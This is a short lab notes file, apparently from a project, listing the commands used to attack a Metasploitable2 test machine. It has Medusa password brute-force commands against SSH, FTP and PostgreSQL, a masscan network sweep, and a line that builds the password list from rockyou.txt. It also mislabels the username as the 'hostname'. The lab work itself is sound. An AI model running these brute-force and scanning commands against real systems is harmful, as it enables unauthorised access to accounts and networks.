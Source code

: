# Attack Tool Commands

## Description

This document contains the commands used to run the attack tools against services running on the Metasploitable2 virtual machine.

## Medusa

For each of the services tested, the hostname used is `msfadmin` and the password list used is `password_list.txt`. The password list was generated using using the first 28 passwords from the `rockyou.txt` password list with two additional passwords `msfadmin` and `postgres` added to the end of the list to generate found cases.

The command used to generate the `password_list.txt` file is:

```bash
tail -n +6 rockyou.txt | head -n 28 > password_list.txt && echo "msfadmin" >> password_list.txt && echo "postgres" >> password_list.txt
```

```bash
# SSH Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ssh -n 22

# FTP Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ftp -n 21

# PostgreSQL Brute Force
medusa -h 192.168.1.100 -u postgres -P password_list.txt -M postgres -n 5432
```

## Masscan

```bash
sudo masscan 192.168.1.0/24 -p21-80 --banners --source-ip 192.168.1.98 --interface eth1
```
